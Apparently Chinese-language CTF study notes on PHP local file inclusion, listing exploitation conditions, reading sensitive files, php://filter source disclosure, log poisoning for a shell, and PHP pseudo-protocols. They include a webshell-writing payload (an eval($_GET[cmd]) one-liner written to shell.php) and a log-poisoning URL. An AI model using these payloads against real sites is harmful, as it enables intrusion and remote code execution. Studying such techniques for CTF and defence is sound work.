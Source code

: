 #### 本地文件包含

###### 利用条件

1. 存在`include`，`require`等函数
2. 能控制参数带入到上面的函数

###### 常见用法

1. 读取敏感文件

如`etc/passwd`

2. 使用伪协议读取源码

```
php://filter/read=convert.base64-encode/resource=xxx.php
```

3. 包含含有shell的文件,

如果源码中包含有获取`.php`的文件，那么可以上传一个`.jpg`文件，使用中间件解析漏洞，尝试读取`.jgp.php`文件，使用`php`解析这个`jpg `文件

4. 包含Apache日志的Getshell

需要知道apache的日志文件`access.log`的存放位置，一般在`/var/log/httpd/access_log``

`nginx`的存在默认在`/var/log/nginx/access.log`

使用`http://xxxx.com/<?php phpinfo ?>`访问，这个历史继续会写在日志文件。然后可以访问日志文件，就会触发文件包含漏洞。



#### 远程文件包含





#### 伪协议

一般的文件包含，感觉都会配合伪协议。

伪协议可以读写源码。可以看到源码中注解的`flag`，或者执行php的代码，得到目录结构，获取`flag文件名字`。



###### file://

访问本地文件系统，不受`allow_url_fopen`，和`allow_url_include`影响。



###### php://

用于访问输入、输出流。

```
# 执行php代码
php://input 
# 若有写入权限,可以写入一句话木马到文件。
<?php fput(fopen('shell.php','w'),'<?php @eval($_GET[cmd]); ?>'); ?>
# 读取源码
php://filter
php://stdin
php://memory
php://temp
```



###### zip:// & bzip2:// & zlib://

可以访问压缩文件中的子文件。

不需要指定后缀名？可修改为任意后缀`jpg,png,gif,xxx`??



###### data://

将文本以数据流封装传递，通常可以用来执行php代码。



###### phar://



###  题目：


###### 1. ctf.show_web3


